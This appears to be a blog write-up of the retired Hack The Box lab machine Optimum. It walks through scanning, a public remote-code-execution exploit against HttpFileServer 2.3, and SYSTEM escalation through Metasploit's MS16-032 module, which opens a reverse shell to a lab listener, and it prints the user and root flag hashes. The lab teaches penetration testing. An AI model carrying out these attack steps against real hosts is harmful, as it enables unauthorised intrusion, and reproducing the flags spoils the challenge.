 ```yaml
---
title: HTB Machine Optimum May 2025
published: 2025-05-16
description: Writeup of HTB Optimum Machine.
tags: [B2R, HTB, Easy, Retired, Windows, Metasploit, HttpFileServer, RCE, MS16-032]
image: "images/cover.png"
category: HTB Machine Writeups
draft: false
---
```


# Scanning
## Rustscan

```bash
rustscan -a 10.10.10.8 -r 1-1000 -b 100 
```

![Pasted image 20250516151149.png](images/Pasted_image_20250516151149.png)
## Nmap

```bash
# Nmap 7.94SVN scan initiated Fri May 16 15:10:08 2025 as: nmap -sC -sV -T5 -oA nmap/initials 10.10.10.8
Nmap scan report for 10.10.10.8 (10.10.10.8)
Host is up (0.18s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri May 16 15:10:38 2025 -- 1 IP address (1 host up) scanned in 29.60 seconds
```

- The scan reveals only one open port: 80 (HTTP) running HttpFileServer (HFS) version 2.3.
- The target is confirmed to be a Windows machine.
- RustScan was used first for quick port discovery, followed by a detailed Nmap scan to identify services and versions.
- HFS (HTTP File Server) is a free web server specifically designed for file sharing, often used for quick setup without complex configuration.
# Enumeration

- After identifying the web application as HFS 2.3, I conducted research to find potential vulnerabilities.
- The application version information was clearly visible in the HTTP headers and page title.
- A search for exploits revealed multiple available options for this specific version.
- HFS 2.3 is known to have several critical vulnerabilities, including remote code execution issues through the search function and macro functionality.

## Searching Exploits Online

![Pasted image 20250516152058.png](images/Pasted_image_20250516152058.png)

- Found a suitable exploit on GitHub: https://github.com/thepedroalves/HFS-2.3-RCE-Exploit
- This exploit leverages a remote code execution vulnerability in HFS 2.3.
- The vulnerability exists because HFS fails to properly sanitize user input in search queries, allowing for command injection.
- This particular version (2.3) was released in 2014 and has not received security updates to patch these vulnerabilities.

![Pasted image 20250516152040.png](images/Pasted_image_20250516152040.png)

# Exploitation

## Initial Foot Hold

- The exploit was executed successfully against the target.
- This provided an initial user-level shell on the system.
- The exploit works by sending a specially crafted HTTP request that contains a command injection payload.
- When the server processes this request, it executes our commands with the privileges of the user running the HFS service.

![Pasted image 20250516152238.png](images/Pasted_image_20250516152238.png)
![Pasted image 20250516152251.png](images/Pasted_image_20250516152251.png)

- Initial reconnaissance showed the user context was "kostas", a standard user account on the system.
- The shell provides limited access but sufficient to begin internal enumeration and locate the user flag.
- User flag successfully retrieved:

```lua
ca03a3a501d204b062958bfa014f9e9f
```

# Post Exploitation
## Metasploit Post Exploitation Module 

- For privilege escalation, utilized Metasploit's local exploit suggester module to identify potential vectors.
- The module scans the target system for applicable vulnerabilities based on its configuration.
- This automated tool checks for missing patches, vulnerable services, and other common privilege escalation paths without manual enumeration.

```bash
use post/multi/recon/local_exploit_suggester 
set SESSION 5
run
```

![Pasted image 20250516160737.png](images/Pasted_image_20250516160737.png)

## Privilege Escalation

- While investigating the suggester results, performed additional research online for suitable Windows privilege escalation exploits.
- Identified MS16-032 (Secondary Logon Handle) privilege escalation vulnerability as a promising candidate.
- This vulnerability affects multiple Windows versions and has reliable public exploits available.
- The exploit targets a flaw in the Windows Secondary Logon Service that allows a standard user to elevate privileges to SYSTEM.

![Pasted image 20250516161259.png](images/Pasted_image_20250516161259.png)
![Pasted image 20250516161310.png](images/Pasted_image_20250516161310.png)

### MS16-032 Vulnerability Background

- MS16-032 (CVE-2016-0099) is a privilege escalation vulnerability in the Windows Secondary Logon Service.
- The vulnerability exists due to improper handling of security impersonation tokens in the Secondary Logon Service.
- When exploited, it allows a standard user to elevate privileges to SYSTEM by triggering a race condition in the handling of these tokens.
- Microsoft patched this vulnerability in March 2016, but many systems remain unpatched and vulnerable.
- This vulnerability is particularly effective because it works on multiple Windows versions (Windows 7-10, Server 2008-2012 R2) and has high reliability.

- Used the corresponding Metasploit module to exploit the vulnerability:

```bash
use windows/local/ms16_032_secondary_logon_handle_privesc
set session 5
set lhost 10.10.16.10
set lport 4545
run
```

![Pasted image 20250516160857.png](images/Pasted_image_20250516160857.png)
![Pasted image 20250516160915.png](images/Pasted_image_20250516160915.png)

- Privilege escalation was successful, providing SYSTEM-level access to the target.
- SYSTEM privileges represent the highest level of access on a Windows machine, equivalent to root access on Linux systems.
- With these elevated privileges, full control of the system was achieved, allowing access to all files and configuration settings.

![Pasted image 20250516161021.png](images/Pasted_image_20250516161021.png)
![Pasted image 20250516161034.png](images/Pasted_image_20250516161034.png)

- Root flag successfully retrieved:
```lua
8a532739186a7fb45ef0f03dec9b85fe
```

